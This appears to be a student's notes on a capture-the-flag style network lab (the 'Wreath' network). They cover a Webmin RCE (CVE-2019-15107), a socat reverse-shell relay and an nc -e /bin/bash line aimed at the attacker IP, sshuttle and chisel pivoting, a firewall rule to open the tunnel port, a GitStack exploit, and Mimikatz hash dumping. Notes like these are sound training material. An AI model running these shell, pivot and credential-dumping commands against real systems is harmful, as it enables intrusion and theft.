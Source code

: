 
Here is the summary what has happened till now

Attacker IP
10.50.106.240

Public facing Server:
thomaswreath.thm
10.200.85.200 


Nmap Scan
Port 10000/tcp  snet-sensor-mgmt         RCE Vulnerabiltiy
CVE-2019-15107
```
https://thomaswreath.thm:10000/
```
Got the shell and was not able to crack the administrator hash but was crack the hash of another user but but but will use the admin hash to login via ssh


Reverse Shell Relay :
Will upload the Socat binary (i.e. the compiled version) in the victim machine so that we can set a reverse shell relay

Victim Machine
```
./socat-sardarji tcp-l:8000 tcp:10.50.106.240:4444 & socat linux binary machine port attacker IP and port ```
```
- `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

Attacker machine
```
./nc-sardarji 127.0.0.1 8000 -e/bin/bash
```


But we need SShuttle here as it uses SSH connection to create a tunnel proxt that acts like a new interface.

We are using so that we can communicate through Prod-serv and Git-serv
```
sshuttle -r root@thomaswreath.thm --ssh-cmd "ssh -i id_rsa" 10.200.105.0/24 -x 10.200.105.200
```

gitserver.thm
10.200.105.150

GitStack
RCE vulnerability for the login page 
As we are not able to login but we are able to upload a payload and can execute command in the git server as a result will try to get a reverse shell from 
git server to pro server.

We have make a user and can also rdp or evil-winrm and run Mimikatz and get the hash for the adim and cracked the password for user thomas 


Git-Server to Personal Pc
```
netsh advfirewall firewall add rule name="Chisel-Sardarji" dir=in action=allow protocol=tcp localport=47000
```

Git-serv Victim
```
./chisel_win.exe server -p 47000 --socks5
```

Attacker 
```
chisel client 10.200.101.150:47000 9090:socks
```

https://imagevault.cloud/G6D6RE